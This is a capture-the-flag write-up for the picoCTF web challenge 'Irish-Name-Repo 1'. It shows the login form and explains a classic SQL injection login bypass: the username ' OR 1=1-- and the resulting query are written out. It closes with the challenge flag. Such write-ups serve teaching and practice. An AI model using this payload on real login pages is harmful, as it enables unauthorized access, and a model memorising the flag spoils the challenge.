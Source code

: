 # Irish-Name-Repo 1

## Description
> There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` [link](https://jupiter.challenges.picoctf.org/problem/33850/) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

## Hints
> There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
>
> Try to think about how the website verifies your login.

## Solution
1. The website offered an admin login page:
   ```html
   <form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
   ```
2. In the menu we will not find any useful information, let's move on to the Support section
   
3. We will see small conversations between the admin and the customer, here we will find out they are talking about the SQL Error.
> ![alt text](image.png)

4. When we go to the Admin Login, we can try a basic SQL Injection to bypass the portal. Our injection is specifically having the username as ' OR 1=1-- and the password as whatever (`or vice versa`). The SQL query that checks the login is likely something like:
``` java
 SELECT username, password FROM users WHERE username='$username' AND password='$password';
 ```
When we put in our injection, the query becomes:
``` java
SELECT username, password FROM users WHERE username='' OR 1=1--' AND password='';
```

## Flag
> picoCTF{s0m3_SQL_f8adf3fb}